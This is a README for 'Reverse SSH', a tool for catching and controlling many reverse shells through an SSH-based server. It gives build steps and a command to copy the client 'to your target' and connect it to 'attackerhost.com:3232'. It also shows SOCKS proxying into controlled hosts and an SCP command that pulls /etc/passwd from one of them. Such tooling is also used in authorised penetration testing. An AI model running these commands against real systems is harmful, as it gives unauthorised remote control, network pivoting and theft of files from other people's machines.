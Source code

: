# Reverse SSH

Ever wanted to use SSH for reverse shells? Well now you can.  

The reverse ssh server lets you catch multiple reverse shells, using the fully statically compiled reverse shell binary. 

```
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |         |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```

## TL;DR

```
make
cd bin/

cp ~/.ssh/id_ed25519.pub authorized_keys

#copy client to your target 
./server 0.0.0.0:3232
./client --foreground attackerhost.com:3232 
```


## Setup Instructions


```
make
```

Make will build both the `client` and `server` binaries. It will also generate a private key for the `client`, and copy the corrosponding public key to the `authorized_controllee_keys` file to enable the reverse shell to connect.
If you need to build the client for a different architecture. 

```
GOOS=linux GOARCH=amd64 make client
```


You will need to create an `authorized_keys` file, containing *your* public key. 
This will allow you to control whatever server catches. 
```
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control. 
```
./client yourserver.com:3232
```

Then connect to your reverse shell catcher server:

```
ssh yourserver.com -p 3232
```

## Features

### Proxy

Using just the general dynamical forward `-D` flag you can proxy network traffic to your controlled hosts.

First you connect to your reverse shell catcher.

```
ssh -D 9050 catcher.com -p 3232
```

Then use the `proxy connect <remote_id>` command to connect to your reverse shell. 

```
catcher$ proxy connect 0bda3b12d3ce83f895632d412261073dc93dba3e 
Connected: 0bda3b12d3ce83f895632d412261073dc93dba3e
catcher$ 
```
After this, just point your tools/web browser to the socks5 port open on your local machine (in this example on port 9050) and you're away laughing.

You can obviously only proxy to one host at a time.


### SCP

You can transfer files to and from your controlled hosts using SCP. Essentially you address which host you want to download/upload to by `<ip_address>:<remote_id>:/path/here`.

e.g to upload the directory test to the host `0be2782caae4bedff780e14526f7618ab61e24fa`:
```
scp -r -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:$(pwd -P)/test2
```

Or to download `/etc/passwd` from a host:

```
scp -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:/etc/passwd
```

### Shell

On connection you will be presented by a list of controllable clients, e.g:
```
catcher$ ls
                    Targets
---------------------------------------------------------------------
| ID                                       | Hostname | IP Address  |
---------------------------------------------------------------------
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | wombo  | [::1]:45150   |
---------------------------------------------------------------------
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries. 
So you you wanted to connect to the client given in the example: 
```
> connect a<TAB>
```
Will auto complete the entry for you and on enter will connect you to your reverse shell. 


